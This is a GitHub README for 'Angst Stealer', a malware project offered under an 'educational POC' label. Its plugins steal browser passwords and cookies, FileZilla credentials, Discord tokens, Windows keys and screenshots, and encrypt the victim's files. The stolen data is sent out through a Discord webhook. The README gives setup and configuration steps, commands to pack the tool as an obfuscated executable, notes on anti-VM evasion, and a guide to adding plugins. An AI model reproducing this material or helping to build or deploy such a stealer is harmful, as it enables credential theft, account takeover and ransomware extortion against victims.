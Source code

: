 ## Angst Stealer
AngstStealer is a POC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purpose's, please do not use misuse this tool. Angst Stealer currently has a total of 6 plugins:

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Ransomware | Encrypts all files on the victims computer, drops a note also. |
| Discord | Dumps discord token for Chrome and Discord. |
| Send | Zips and sends all the files through the Discord webhook. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/backslash/AngstStealer` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```
CONFIG = {
    "webhook" : "",
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
}

```
webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
windows -> Give information about your victim & includes the windows key</br>
discord -> Steal discord tokens</br>
screenshot -> takes a screenshot</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>

### Demo
Example of how the dump folder might look.
<p align="center">
  <img width="400" height="300" src="https://i.imgur.com/56vt3pL.png">
</p>
<p align="center">
  <img width="400" height="300" src="https://i.imgur.com/jfURfLb.png">
</p>
<p align="center">
  <img width="400" height="300" src="https://i.imgur.com/JeYJ9tm.png">
</p>

### To Do List
- [x] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [x] Implement some anti-vm tricks.
- [ ] Add more plugins

### Adding Plugins
Adding custom plugins is incredibly easy, here is a short example of how you make and integrate your own custom plugin for Angst:

1. First off you will want to create your plugin preferably in your plugins folder. The plugin can have as many function as needed, the example I provided below has one function called retrieve_data which will retrieve our sensitive data. Our dump function is needed for proper plugin integration because this is how all the functions know to dump there data.
```python
import requests

class ExamplePlugin(object):
	def __init__(self):
		self.sensitive_data = ""

	def retrieve_data(self):
		view_website = requests.get("https://api.ipify.org")
		self.sensitve_data = view_website.text

	def dump(self):
		self.retrieve_data()
		return self.sensitive_data
	
```
2. Next we want to add our example function to our main file which is `angst.py` in our `angst.py` do 
```from plugins.exampleplugin import ExamplePlugin```
change your import name on whatever you named your file and whatever you called the plugin class. 
3. Lastly we want to add it to our `config["software"]` and the `self.plugins` as show below.
```
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True
    }
```
```
self.plugins = {
            "chrome": Chrome(),
            "chromecookies": Cookies(),
            "filezilla": Filezilla(),
            "discord": Discord(),
            "screenshot": Screenshot(),
            "windows": Windows()
        }
```
Make sure you use the exact same name when you put it under the config and self.plugins since it is case sensitive.


### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
